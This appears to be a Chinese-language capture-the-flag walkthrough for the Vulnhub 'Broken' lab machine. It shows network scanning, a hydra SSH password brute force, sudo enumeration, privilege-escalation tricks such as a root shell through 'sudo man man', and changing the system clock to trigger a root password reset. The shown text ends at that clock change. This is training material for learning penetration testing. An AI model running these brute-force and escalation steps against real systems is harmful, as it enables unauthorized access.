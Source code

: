 ## 👑Vulnhub Broken

### 一、操作文档

```
[Vulnhub - Broken-Gallery writeup (mzfr.me)](https://blog.mzfr.me/vulnhub-writeups/2019-08-21-Broken)
```

### 二、靶机信息

```
IP：192.168.184.135
开启的端口：22，80
用户名：bob
login: broken   password: broken
```

### 三、获取基本信息

#### 1、扫描网段IP

```shell
netdiscover -r 192.168.184.0/24  
 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname      
 -----------------------------------------------------------------------------
 192.168.184.1   00:50:56:c0:00:08      1      60  VMware, Inc.                    
 192.168.184.2   00:50:56:f8:49:8c      1      60  VMware, Inc.                    
 192.168.184.135 00:0c:29:05:05:03      1      60  VMware, Inc.      	#发现被攻击者IP              
 192.168.184.254 00:50:56:e2:c5:b4      1      60  VMware, Inc.  
```

#### 2、端口扫描

> 发现开启了==22端口和80端口==

```
nmap -sC -sV 192.168.184.135 -n -vv --min-rate=2000
 _____________________________________________________________________________
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 39:5e:bf:8a:49:a3:13:fa:0d:34:b8:db:26:57:79:a7 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCsDP1G9p8pMW+TiKn0Exn6d2tGTTPGrKsIAlCWxUoZu/Jz+teqiDxZoQArXlhK/SgXXJv6ufJHMcgWhFOdGG/8Jfm46M7qURTWqTER5f7aNimHTvcBB/Zcnr1cSE+Yt3UgeguQ2VBTqPnESNjIinj5f7OrEJCG6Uvf221Wijzvb6KrYv5LNfrh8UJJ6ieis13aqvjwN1MQdKwMWYAV/2aPLME59TVyqneRDOvFZRDEPMHGJB3ZoNrlNudDf6UqZuLViplnkaN+SuxAWNXYG+g1fA578fNVIzI7bHAYDbCGFZh87TLKHvJvgqlWLDQvo8irzHlWvIpehvbpthnGIG0V
|   256 20:d7:72:be:30:6a:27:14:e1:e6:c2:16:7a:40:c8:52 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBOedB//c64utUEo+gsmsh26dzZa0eMsc83InMyXD0rEepjTXqxbplJWFzx3rQSElxwdql+BsaQBI9qg+XROp9ZQ=
|   256 84:a0:9a:59:61:2a:b7:1e:dd:6e:da:3b:91:f9:a0:c6 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIIwpzv0aEpNMhO0avZsZ46zXc0aPO2V+867IaJkhJuSN
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.18
|_http-title: Index of /
| http-ls: Volume /
| SIZE  TIME              FILENAME
| 55K   2019-08-09 01:20  README.md
| 1.1K  2019-08-09 01:21  gallery.html
| 259K  2019-08-09 01:11  img_5terre.jpg
| 114K  2019-08-09 01:11  img_forest.jpg
| 663K  2019-08-09 01:11  img_lights.jpg
| 8.4K  2019-08-09 01:11  img_mountains.jpg
|_
| http-methods: 
|_  Supported Methods: POST OPTIONS GET HEAD
|_http-server-header: Apache/2.4.18 (Ubuntu)
MAC Address: 00:0C:29:05:05:03 (VMware)
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### 四、查看80端口的信息

![image-20220517172556091](https://yang-typora.oss-cn-beijing.aliyuncs.com/202208041716404.png)

- 发现包含几张图片和文本

![image-20220517172834754](https://yang-typora.oss-cn-beijing.aliyuncs.com/202208041716471.png)

![image-20220517173019203](https://yang-typora.oss-cn-beijing.aliyuncs.com/202208041716321.png)

#### 1、由于发现了图片，所以考虑图片隐写，查看图片信息

![image-20220517173406620](https://yang-typora.oss-cn-beijing.aliyuncs.com/202208041716392.png)

> 未发现隐写

#### 2、查看是否含有隐藏目录

`dirsearch`

```
dirsearch -u 192.168.184.135
```

![image-20220517174012903](https://yang-typora.oss-cn-beijing.aliyuncs.com/202208041716444.png)

> 未发现隐藏目录

### 五、CyberChef解码

- `  = `考虑是否为Base64  
- 用`From Charcode`解码

![image-20220517174659595](https://yang-typora.oss-cn-beijing.aliyuncs.com/202208041716505.png)

- 获取到的图片信息为

![image-20220517174801177](https://yang-typora.oss-cn-beijing.aliyuncs.com/202208041716042.png)

### 六、将获取到的信息形成字典

```
hello
bob
broken
cheers
avrahamcohen.ac
```

### 七、使用九头蛇爆破

```
hydra -L test.txt -P test.txt ssh://192.168.184.135

[22][ssh] host: 192.168.184.135   login: broken   password: broken
```

### 八、远程SSH链接

```
ssh broken@192.168.184.135
```

### 九、查看自己的权限

```
broken@ubuntu:~$ sudo -l
Matching Defaults entries for broken on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User broken may run the following commands on ubuntu:
    (ALL) NOPASSWD: /usr/bin/timedatectl
    (ALL) NOPASSWD: /sbin/reboot
```

- 查看目录
- 是否可以进入root目录
- 查看是否有隐藏文件
- 查看passwd文件
- 查看是否可以替换命令
  - 快捷方式是否可以更改到别的命令
- `sudo -i`可直接进入root
- `sudo man man`然后输入`!`可直接进入root

### 十、查看历史命令

```
history | more
```

- 写入密码

![image-20220517180921079](https://yang-typora.oss-cn-beijing.aliyuncs.com/202208041716966.png)

- 发现查看过此文档

![image-20220517180843384](https://yang-typora.oss-cn-beijing.aliyuncs.com/202208041716989.png)

- 查看password-policy.sh文档

```
broken@ubuntu:~$ cat /etc/init.d/password-policy.sh 
#!/bin/bash

DAYOFWEEK=$(date +"%u")
echo DAYOFWEEK: $DAYOFWEEK

if [ "$DAYOFWEEK" -eq 4 ]
then
	sudo sh -c 'echo root:TodayIsAgoodDay | chpasswd'
fi



#if [ "$DAYOFWEEK" == 4 
```

==发现每个周四将密码改为TodayIsAgoodDay==

**将系统时间改为周四**

### 十一、更改系统时间

```
broken@ubuntu:~$ sudo timedatectl set-time '2022-05-19 12:00'
```

![image-20220517181605512](https://yang-typora.oss-cn-beijing.aliyuncs.com/202208041716032.png)
